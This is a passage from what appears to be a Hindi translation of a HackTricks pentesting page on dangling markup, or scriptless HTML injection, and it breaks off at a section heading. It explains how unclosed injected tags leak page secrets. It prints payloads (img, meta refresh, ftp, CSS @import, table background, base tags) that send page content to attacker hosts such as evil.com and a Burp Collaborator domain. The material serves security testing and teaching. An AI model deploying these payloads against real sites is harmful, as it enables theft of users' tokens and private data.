 # डैंगलिंग मार्कअप - एचटीएमएल स्क्रिप्टलेस इंजेक्शन

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## सारांश

यह तकनीक एक **एचटीएमएल इंजेक्शन मिलते ही उपयोग की जा सकती है** जब एक उपयोगकर्ता से जानकारी निकालनी हो। यह बहुत उपयोगी है अगर आपको किसी [**XSS**](../xss-cross-site-scripting/) को एक्सप्लोइट करने का कोई तरीका नहीं मिलता है, लेकिन आप **कुछ एचटीएमएल टैग्स इंजेक्ट** कर सकते हैं।\
यह उपयोगी भी है अगर किसी **गुप्त सामग्री को साफ टेक्स्ट में सहेजा गया है** और आप उसे क्लाइंट से **बाहर निकालना** चाहते हैं, या अगर आप किसी स्क्रिप्ट को गुमराह करना चाहते हैं।

यहां बहुत सारी तकनीकें बात की गई हैं जो कुछ [**सामग्री सुरक्षा नीति**](../content-security-policy-csp-bypass/) को बाईपास करने के लिए उपयोगी हो सकती हैं, अप्रत्याशित तरीकों में जानकारी को बाहर निकालने के लिए (एचटीएमएल टैग्स, सीएसएस, एचटीटीपी-मेटा टैग, फॉर्म, बेस...).

## मुख्य अनुप्रयोग

### साफ टेक्स्ट सीक्रेट्स चोरी

यदि आप `<img src='http://evil.com/log.cgi?` इंजेक्ट करते हैं तो जब पेज लोड होता है तो पीडीएफ आपको इंजेक्टेड `img` टैग और कोड के बीच के अगले कोड कोट के बीच में सभी कोड को भेजेगा। यदि उस चंक में किसी गुप्त सामग्री को स्थानित किया गया है, तो आप उसे चुरा लेंगे (आप एक डबल कोट का उपयोग करके भी यही काम कर सकते हैं, देखें कौन सा अधिक दिलचस्प हो सकता है)।

यदि `img` टैग मना किया जाता है (उदाहरण के लिए, सीएसपी के कारण) तो आप `<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?` का उपयोग भी कर सकते हैं।
```
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
ध्यान दें कि **Chrome "<" या "\n" वाले HTTP URLs को ब्लॉक करता है**, इसलिए आप "ftp" जैसे अन्य प्रोटोकॉल स्कीम का प्रयास कर सकते हैं।

आप CSS `@import` का दुरुपयोग भी कर सकते हैं (जो एक ";" तक कोड भेजेगा)।
```markup
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```
आप इस्तेमाल कर सकते हैं **`<table`**:
```bash
<table background='//your-collaborator-id.burpcollaborator.net?'
```
आप एक `<base` टैग भी सम्मिलित कर सकते हैं। सभी जानकारी उस समय तक भेजी जाएगी जब तक कि उद्धरण बंद नहीं हो जाता है, लेकिन इसके लिए कुछ उपयोगकर्ता संवेदनशीलता की आवश्यकता होती है (उपयोगकर्ता को किसी लिंक पर क्लिक करना होगा, क्योंकि बेस टैग ने लिंक द्वारा निर्देशित डोमेन को बदल दिया होगा):
```markup
<base target='        <--- Injected
steal me'<b>test</b>
```
### फॉर्म चोरी
